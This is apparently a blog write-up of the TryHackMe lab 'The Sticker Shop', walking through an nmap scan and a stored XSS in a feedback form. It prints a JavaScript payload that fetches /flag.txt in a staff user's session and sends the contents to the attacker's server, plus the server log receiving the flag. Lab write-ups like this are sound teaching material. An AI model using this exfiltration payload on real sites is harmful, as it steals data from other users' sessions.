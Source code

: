 ```yaml
---
title: "TryHackMe: The Sticker Shop"
author: jaxafed
categories: [TryHackMe]
tags: [web, xss, js]
render_with_liquid: false
img_path: /images/tryhackme_the_sticker_shop/
image:
  path: room_image.webp
---
```


**The Sticker Shop** was a very simple room about exploiting a **Cross-Site Scripting (XSS)** vulnerability to steal the contents of a page and retrieve the flag.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/thestickershop){: .center }

## Initial Enumeration

### Nmap Scan

We start with an `nmap` scan.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.222.154
Nmap scan report for 10.10.222.154
Host is up (0.082s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are two ports open:

- **22** (`SSH`)  
- **8080** (`HTTP`)

### Web 8080

Visiting `http://10.10.222.154:8080/`, we see a simple page displaying some stickers and their prices.

![Web 8080 Index](web_8080_index.webp){: width="1200" height="600"}

While there is no functionality to purchase the stickers, it appears we can leave feedback at `http://10.10.222.154:8080/submit_feedback`.

![Web 8080 Submit Feedback](web_8080_submit_feedback.webp){: width="1200" height="600"}

After submitting feedback, we receive a message stating that a staff member will review it shortly.

![Web 8080 Submit Feedback Message](web_8080_submit_feedback_message.webp){: width="1200" height="600"}

The room also specifies that our goal is to read the flag located at `http://10.10.222.154:8080/flag.txt`. However, making a request to this endpoint returns a `401 Unauthorized` response.

![Web 8080 Flag](web_8080_flag.webp){: width="1200" height="600"}

## Obtaining the Flag

### Discovering the XSS

Going back to the **Feedback** page and testing the form for Cross-Site Scripting (**XSS**) with a simple payload like `<img src="http://10.11.72.22/test" />` and starting a basic HTTP server to confirm the vulnerability, we can see that we are successful as we see a request in our web server.

![Web 8080 Submit Feedback Xss](web_8080_submit_feedback_xss.webp){: width="1200" height="600" }

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.222.154 - - [01/Dec/2024 06:44:39] code 404, message File not found
10.10.222.154 - - [01/Dec/2024 06:44:39] "GET /test HTTP/1.1" 404 -
```

### Stealing Page Contents

Our goal is still to access the contents of the `http://10.10.222.154:8080/flag.txt` page, and while we don't have access to it, we can consider the possibility that the staff user might.

Since we already discovered a Cross-Site Scripting (**XSS**) vulnerability potentially affecting a staff user that allows us to run `JavaScript` code in their session, we can exploit this vulnerability to obtain the contents of the `http://10.10.222.154:8080/flag.txt` page.

To achieve this, we will first write a `JavaScript` code that makes a request to the `/flag.txt` endpoint and sends the contents back to our server upon receiving a response, as shown below:

```js
var target_url = "/flag.txt";
var my_server = "http://10.11.72.22/data";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(my_server + "?" + xhr.responseText)
    }
}
xhr.open('GET', target_url, true);
xhr.send(null);
```

Now, all we have to do is send our payload wrapped in `script` tags through the feedback form to make it execute in the staff user's session.

![Web 8080 Submit Feedback XSS Two](web_8080_submit_feedback_xss2.webp){: width="1200" height="600"}

After submitting the feedback with the payload, as we can see, we receive the flag on our web server and complete the room.

```console
10.10.222.154 - - [01/Dec/2024 06:59:29] code 404, message File not found
10.10.222.154 - - [01/Dec/2024 06:59:29] "GET /data?THM{83[REDACTED]e6} HTTP/1.1" 404 -
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
